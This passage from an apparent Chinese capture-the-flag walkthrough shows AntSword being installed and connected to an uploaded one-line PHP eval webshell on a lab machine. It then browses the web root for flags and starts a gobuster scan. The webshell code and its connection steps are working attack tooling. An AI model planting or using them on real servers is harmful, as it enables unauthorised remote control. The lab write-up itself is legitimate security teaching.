 蚁剑打开如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROMRlYqhkCenSmmvHpEHwEPeic7wlypUkItZjY0URsvRBfJYQkddrn2VkV9ZKx3icia9jibuw6qIaC4Zg/640?wx_fmt=png)

第四步，创建一个空文件夹（用全英文名字）。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROMRlYqhkCenSmmvHpEHwEPTsJjMaM4NNA5T8JOof7C3KyhANBhRaZeAcJjJ3wETFmImH5rGND0TQ/640?wx_fmt=png)

然后点击蚁剑 “初始化” 按钮，找到你新建的文件夹，并选择它进行安装。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROMRlYqhkCenSmmvHpEHwEPCqImicNlSP74ja35GyVUhDemlpmQDgcmyDbC1cfveIZ16sDVIyDY5uw/640?wx_fmt=png)

执行结束之后，“./AntSword” 会出现这个界面，说明安装成功。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROMRlYqhkCenSmmvHpEHwEPFmrnuWNnOyvtIiaAHiavAp4geH7Gw1lfAiaY82kZJib0QomtxGoChnRagQ/640?wx_fmt=png)

### 蚁剑提权

第一步，利用前面上传的一句话木马。

```
<?php @eval($_POST['eastmount']);?>
```

第二步，运行蚁剑，右键单击 “添加数据”，输入 URL 地址，连接密码以及编码设置。PHP 语言推荐编辑器使用 chr 加密。

```
URL：http://192.168.44.143/uploaded_files/shell.php密码：eastmount
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROMRlYqhkCenSmmvHpEHwEPkrSORLwa5qPkp5pjvfZnKYtflfjGl7d8aiakfvDia0ibZVa1LBvk7D7Ng/640?wx_fmt=png)

接着整个后台显示出来，如下图所示，是不是感受到了蚁剑的强大。

第三步，右键文件管理查看 webshell 目录

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROMRlYqhkCenSmmvHpEHwEP742yFAKPSNuDbL1Ik2sfaqoHaY0yTdiaGzypucvuggDYYSAIbMUNMicA/640?wx_fmt=png)

找到 / var/www/html / 目录下，看到 hint.txt 和 flag.txt 文件。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROMRlYqhkCenSmmvHpEHwEP1vpW6KbQynCvcibsRC4pLic1Lue64ec03iamk47qXakabia3tbAmUSiaK4Q/640?wx_fmt=png)

直接打开 hint.txt 文件，我们看到了第三个 flag 和用户名 technawi，该用户名又能做什么呢？

> try to find user technawi password to read the flag.txt file, you can find it in a hidden file 😉

The 3rd flag is : {76451xxxx345670}

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROMRlYqhkCenSmmvHpEHwEPic0XhotRguicpkyxsrJhic7Fpkm1z4xCDguhmmtmibpiaPEzpLUBJru3MiaQ/640?wx_fmt=png)

注意，这里如果您对信息比较敏感，可能会通过直接访问 hint.txt 得到第三个 flag 和用户 technawi。但更推荐大家尝试中国蚁剑和一句话木马的渗透方法。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROMRlYqhkCenSmmvHpEHwEPo0I8RYhT0e85w9BZanmfvt7A8dmtavHeMt3CvklYcQuI3Nd85r4HFg/640?wx_fmt=png)

第四步，gobuster 目录扫描  
注意，hint.txt 文件是能够直接访问的，但 flag.txt 文件却无法访问。我们补充一个目录扫描知识点，使用 gobuster 依次扫各目录下的 txt 文件。robots.txt 和 hint.txt 目录为 200，表示能直接访问，其他目录均不能直接访问，flag.txt 提示 403。
